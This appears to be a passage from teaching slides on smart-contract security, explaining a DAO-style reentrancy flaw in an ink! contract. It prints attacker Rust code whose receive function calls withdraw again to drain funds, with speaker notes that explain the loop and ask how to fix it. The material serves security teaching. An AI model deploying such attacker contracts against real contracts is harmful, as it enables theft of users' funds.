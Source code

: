 - ink! does not have fallback functions, but it is not immune from reentrancy attacks either
- this contract mimics the DAO
- it has a mapping for maintaing balances
- it has a deposit function for sending the funds and a withdraw for getting them all back at once
- withdrawals calls the `callers` contract and sends the funds to a function with this 4 byte signature.
- can anyone spot what the problem is?
- how would you use it to craft an attack?

---

## Reentrancy: attacker's code example

<div style="font-size: 0.70em;">

```rust[3-9|11-12|17-22]
#[ink(message)]
pub fn attack(&mut self) -> Result<(), AttackerError> {
    build_call::<DefaultEnvironment>()
        .call(self.dao_address)
        .call_flags(CallFlags::default().set_allow_reentry(true))
        .exec_input(ExecutionInput::new(Selector::new([0x44, 0x45, 0x50, 0x4F])))
        .transferred_value(ONE_AZERO)
        .returns::<Result<(), DaoError>>()
        .invoke()?;

    let mut dao = DaoRef::from_account_id(self.dao_address);
    dao.withdraw()?;

    Ok(())
}

#[ink(message, payable, selector = 0x52454356)]
pub fn receive(&mut self) -> Result<(), DaoError> {
    let mut dao = DaoRef::from_account_id(self.dao_address);
    dao.withdraw()?;
    Ok(())
}
```

</div>

Notes:

- attacker deploys an SC that acts as an investor
- it begins by depositing and this contract deposits some ETH into The DAO.
- This entitles the attacker to later call the `withdraw` function of the DAO to get his deposits back.
- When the `withdraw` is called, the DAO sends back the funds by calling the payable `receive` function.
- but this function is crafted by the attacker to maliciously call the DAOs `withdraw` again.
- since the state is not yet updated the call does not revert and withdraw send the funds yet again.
- this effectively creates an evil feedback loop which drains all the funds.
- how would you fix this?

---
